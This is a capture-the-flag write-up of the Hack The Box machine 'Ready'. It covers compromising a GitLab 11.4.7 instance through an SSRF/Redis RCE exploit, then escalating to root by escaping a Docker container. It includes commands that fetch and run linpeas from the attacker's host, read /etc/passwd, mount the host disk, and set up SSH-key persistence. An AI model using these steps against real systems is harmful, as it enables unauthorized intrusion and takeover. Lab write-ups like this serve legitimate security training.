

# Writeup for [Ready](https://www.hackthebox.eu/home/machines/profile/304) from [Hack The Box](https://www.hackthebox.eu/)

## Table of Contents

<!-- MarkdownTOC -->

- [Machine Information](#machine-information)
- [Information Gathering and Enumeration](#information-gathering-and-enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
	- [Git User to Docker Root](#git-user-to-docker-root)
	- [Docker Root to Real Root](#docker-root-to-real-root)

<!-- /MarkdownTOC -->


## Machine Information
* OS		 : Linux
* Difficulty : Medium
* Points	 : 30
* Release	 : 12 Dec 2020
* IP		 : 10.10.10.220

## Information Gathering and Enumeration

As usual, we're going to start with a simple nmap scan.
```bash
nmap -sCV -oN nmap/initial -v 10.10.10.220
```
We see only 2 ports open, SSH on port 22 and HTTP on port 5080.


I also ran an all port scan with nmap to see any hidden services on the box, but it doesn't show any other services other than these two.

Navigating to the HTTP service, we are greeted with a Gitlab instance.

Poking around I found a way to potentially enumerate the version by navigating to the **help** page.


Then going to `Check The Current Instance` link



But this request timed out and I was left with nothing. But remember we did saw a **Register** option on the front page.

Let's try creating a random user. I used `test123` as the user and `password` as the password.


We get in, and clicking the profile icon on the top right, we can navigate to the **help** page once more.


Here we can see the Gitlab version which is `11.4.7`.


Now that we know the version of the software, let's start searching for public exploits using `searchsploit`.

```bash
searchsploit gitlab
```

We see that this version has an RCE ( Remote Code Execution ) exploit.


```bash
searchsploit -m ruby/webapps/49334.py && mv 49334.py rce.py
```

## Exploitation

Reading through the source code, I had no idea how this thing worked until I found this [blog post](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) by [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w) ( **Some really cool stuff in this exploit** )

Basically, this script exploits an SSRF ( Server Side Request Forgery ) vulnerability to send a server side request to `Redis` which is an in-memory data structure store, used as a database, cache, and message broker. But redis has counter-measures againts this attack and made sure that HTTP requests can't be parsed in the Redis command prompt.

Redis will automatically terminate the connection if it sees a `Host:` entry, so the exploit utilizes `CRLF` injection to separate the payload and the `Host:` entry of an HTTP request. By doing this, we can execute commands via Redis before the connection gets terminated.

Now that we know how this exploit roughly works, let's run the script with `-h` flag and fill out all the flags required.

```bash
python rce.py -h
```
Running the script with the required flags, we should get a connection back from our listener.


Here I started to search for users by catting `/etc/passwd` and it seems there is a `dude` user.

```bash
git@gitlab:~/gitlab-rails/working$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...[snipped]...
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh
dude:x:1000:1000::/home/dude:/bin/bash
```

Checking his home directory we can read `user.txt`.


## Privilege Escalation

### Git User to Docker Root

I always start with low hanging fruit, so let's check for `sudo` privileges for our current user.

```bash
sudo -l
```

Running `sudo`, it says that sudo was not found. I find this super weird, because even Arch Linux will usually have sudo preinstalled when installing the `base-devel` package. So I started suspecting that this maybe a **docker container**

Running `ls -al` on `/`, we see a `.dockerenv` file that indicates that we are inside a container. Having root on a container might be nice and we see a `root_pass` file. This might be a password for the root user and I tried logging in with `su -`, but that doesn't seem to work. Tried with the `dude` user as well. Didn't work.


So I tried running `linpeas` in the background while I do some googling on docker escapes.

Setup a webserver with `python` on the directory where linpeas is located.

```bash
python3 -m http.server
```

Use `wget` to retrieve the file.

```bash
cd /tmp && wget http://10.10.16.6:8000/linpeas.sh && ./linpeas.sh
```

Linpeas also confirms that we are inside a docker container.


We see a lot of potential files to go through.

We see that linpeas also dumps the password hashes for the gitlab accounts. Usually I would try to crack the admin's password but I was lazy so I skipped it.

But there is an entry below the dumped gitlab database that might also be a potential password.


Reading that file and grepping for the term 'password', we see that all other entries are commented out with `#` and only one was not commented out.


We are able to switch user to root using this password.


### Docker Root to Real Root 

Now that we're root on the docker, I saw this [post](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#i-own-root) from hacktricks.

Based on that, we can simply found out which device is the mounted physical drive, and mount that to our container.

Running `fdisk -l`, we can see that the physical drive is located at `/dev/sda2`.


Now we can just mount that device to the container.

```bash
mkdir -p /mnt/letsgo && mount /dev/sda2 /mnt/letsgo
```

We now have the whole filesystem in `/mnt/letsgo` and we have root access to that filesystem


If you would like some persistance, root has a private SSH key, so we can just copy it to our local box and SSH in as root.

